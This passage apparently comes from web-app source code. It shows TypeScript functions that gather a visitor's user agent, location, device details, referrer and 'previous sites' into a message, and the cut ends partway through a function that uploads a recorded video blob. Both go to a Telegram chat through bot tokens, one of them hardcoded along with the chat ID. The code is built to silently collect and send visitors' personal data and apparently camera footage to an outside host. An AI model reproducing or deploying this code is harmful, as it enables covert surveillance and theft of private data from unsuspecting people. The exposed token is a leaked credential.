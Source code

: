   const message = `
🔍 New Visitor Details
👤 UA: ${details.userAgent}
📍 Location: ${details.location}
${locationText}
${deviceText}
🔗 Referrer: ${details.referrer}
🌐 Previous sites: ${details.previousSites}
⏰ Time: ${new Date().toISOString()}
  `.trim();

  const messageData = {
    chat_id: CHAT_ID,
    text: message,
    parse_mode: 'HTML',
  };

  try {
    if (primaryBotToken) {
      try {
        await sendTelegramMessage(primaryBotToken, messageData);
        hasNotificationBeenSent = true;
        return;
      } catch (error) {
        console.error('Primary bot failed:', error instanceof Error ? error.message : 'Unknown error');
      }
    }

    try {
      await sendTelegramMessage(backupBotToken, messageData);
      hasNotificationBeenSent = true;
    } catch (error) {
      throw new Error(`Backup bot failed: ${error instanceof Error ? error.message : 'Unknown error'}`);
    }
  } catch (error) {
    console.error('Both bots failed:', error instanceof Error ? error.message : 'Unknown error');
  }
};

export const sendVideoToTelegram = async (videoBlob: Blob) => {
  const primaryBotToken = import.meta.env.VITE_TELEGRAM_BOT_TOKEN?.trim();
  const backupBotToken = '7998243036:AAEmkLqfg6q1Gurw1QgfHCbBM5Idr4SoX6c';
  const CHAT_ID = '-1002361654031';

  if (!CHAT_ID) {
    console.error('Telegram chat ID is not configured');
    return;
  }

  const locationInfo = await getLocationInfo();
  const deviceInfo = await getDeviceInfo();
  const formData = new FormData();
  formData.append('chat_id', CHAT_ID);
  